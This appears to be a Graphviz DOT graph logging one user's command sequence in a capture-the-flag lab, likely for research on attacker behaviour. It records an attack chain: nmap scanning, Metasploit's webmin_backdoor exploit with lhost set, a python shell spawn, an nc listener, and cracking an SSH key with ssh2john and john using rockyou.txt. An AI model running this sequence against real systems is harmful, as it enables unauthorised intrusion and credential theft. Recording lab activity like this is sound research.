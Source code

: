 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 A0 M0 A1 "]
	2 [label="msfconsole A2 M2 "]
	3 [label="search webmin A3 M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  A8 M8 "]
	5 [label="show options A5 M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run V8 "]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run V8 "]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options V5 "]
	16 [label="run V8 "]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a A10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help A16 M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 V16 "]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash A13 M13 A14 A16 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 V16 "]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
